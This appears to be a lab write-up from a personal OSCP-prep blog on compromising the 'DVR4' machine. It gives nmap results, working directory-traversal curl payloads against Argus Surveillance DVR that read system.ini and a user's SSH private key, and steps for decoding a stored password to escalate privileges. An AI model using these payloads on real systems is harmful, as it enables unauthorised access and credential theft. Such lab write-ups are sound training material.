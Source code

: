 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: DVR4
---
```


**Start 18:30 24-02-2025**

---
```
Scope:
192.168.219.179
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv -p- dvr4 -sT -T5 --min-rate=5000

PORT      STATE SERVICE       REASON  VERSION
22/tcp    open  ssh           syn-ack Bitvise WinSSHD 8.48 (FlowSsh 8.48; protocol 2.0; non-commercial use)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5040/tcp  open  unknown       syn-ack
7680/tcp  open  pando-pub?    syn-ack
8080/tcp  open  http-proxy    syn-ack
|_http-title: Argus Surveillance DVR
|_http-generator: Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]
|_http-favicon: Unknown favicon MD5: 283B772C1C2427B56FC3296B0AF42F7C
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Connection: Keep-Alive
|     Keep-Alive: timeout=15, max=4
|     Content-Type: text/html
|     Content-Length: 985
|     <HTML>
|     <HEAD>
|     <TITLE>
|     Argus Surveillance DVR
|     </TITLE>
|     <meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
|     <meta name="GENERATOR" content="Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]">
|     <frameset frameborder="no" border="0" rows="75,*,88">
|     <frame name="Top" frameborder="0" scrolling="auto" noresize src="CamerasTopFrame.html" marginwidth="0" marginheight="0"> 
|     <frame name="ActiveXFrame" frameborder="0" scrolling="auto" noresize src="ActiveXIFrame.html" marginwidth="0" marginheight="0">
|     <frame name="CamerasTable" frameborder="0" scrolling="auto" noresize src="CamerasBottomFrame.html" marginwidth="0" marginheight="0"> 
|     <noframes>
|     <p>This page uses frames, but your browser doesn't support them.</p>
|_    </noframes>
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC

```


### 445/TCP - SMB

![](../../../assets/c93c2cf820f120468c4da2dc0b6183a5.png)

### 8080/TCP - HTTP

![](../../../assets/d9fcc30e4e41e9fe543ad8893d383ee3.png)

I look up exploits matching the service:

![](../../../assets/f4977a08cd478ad5974fe27104e9be01.png)

I actually get quite a lot of them, let's try out the **Directory Traversal** one.

![](../../../assets/1727fbb57802786741496cb71589c895.png)

```bash
# PoC

curl "http://dvr4:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

![](../../../assets/add47350bbb38a0c75f48a7a7b36e49e.png)

We indeed get the intended result.

Back on the website we find the user we're looking for:

![](../../../assets/a47da0ec30e1d9d5bfc5df773e091bea.png)

We want to get the ssh key of *viewer* so we can then log in.

```bash
curl "http://dvr4:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

![](../../../assets/07ff7964bb71e7dae28ae4a0937a69f3.png)

Now that we have the `id_rsa` key, we can use it to log into SSH.


## Foothold

![](../../../assets/260c380d461f5331759eddb56069c6cb.png)

![](../../../assets/54fb5758053c60043d9710c39855b65a.png)

EZ PZ

Let's check out the home directory:

![](../../../assets/3dcb924454908b274b4b535ab447de6c.png)

We notice the user already has `nc.exe` as well as `psexec.exe` in here... Might be a clue.

Let's snatch the `local.txt` first.

### local.txt

![](../../../assets/6277cbf397715f715404e448d5ba3346.png)


## Privilege Escalation

### PoC

We also find another PoC:

![](../../../assets/828741fd3638361b9d246b6b45b419da.png)

In here we see a mention of the `.ini` file, let's check it out.

![](../../../assets/aa4a657fa19b9ddabb7debb08c469701.png)

![](../../../assets/a4217bd840d88203bb038f972064bb31.png)

![](../../../assets/a8cb2fa6b292acb717fde887a3711fac.png)

```
ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
5E534D7B6069F641E03BD9BD956BC875EB603CD9D8E1BD8FAAFE
```

![](../../../assets/f214445aca1c813aa3440ffa717aef2e.png)

![](../../../assets/1db6b13f4670fc5b91f4b28488d2757e.png)

Notice the **Unknown** character here.

:::note
It is possible that we might have to brute force the last character if this is the correct password.
:::

```
14WatchD0g
```

![](../../../assets/f110cb4642c152f5b18753f61d4b30aa.png)

```
ImWatchingYou
```

![](../../../assets/9e6317a4fff03729857504febc91a553.png)

:::fail
Neither worked.
:::

Let's try the `nc.exe` binary then, with the help of `runas`.

![](../../../assets/dd5fa1da2e8b797a990906ba2bc1b980.png)

:::fail
Again no success, let's try to brute force the last **Unknown** character that we found previously.
:::

After some tries it worked:

![](../../../assets/f0660895d041206fe4a91b34cf8ca26c.png)

![](../../../assets/eb5b6f3815d52f706399be54639278ab.png)

:::success
The correct password was `14WatchD0g$`
:::

## proof.txt

![](../../../assets/115e7c1404fae67346215f7b06f3d3f2.png)

---

**Finished 19:27 24-02-2025**

[^Links]: [[OSCP Prep]]

